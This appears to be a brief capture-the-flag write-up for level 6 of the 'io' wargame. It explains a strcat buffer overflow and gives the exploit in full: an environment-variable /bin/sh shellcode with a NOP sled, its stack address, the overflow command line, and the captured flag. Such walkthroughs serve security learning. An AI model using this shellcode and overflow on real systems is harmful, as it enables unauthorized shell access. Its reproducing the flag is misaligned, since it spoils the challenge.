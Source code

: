 strcat vulnerability. No null termination. Buffer overflow after that.

As before, exported shell code using:

```
export SHELLCODE=`python -c 'print "\x90"x50,"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

Next found the address of this exported shellcode to be: `0xbfffff42`.

```
level6@io:/levels$ ./level06 "$(python -c 'print "A"*40 ')" "$(python -c 'print "\x90"*26 + "\x42\xff\xff\xbf"')"
```

Flag: `Nsr869Iyc0sFCX7I`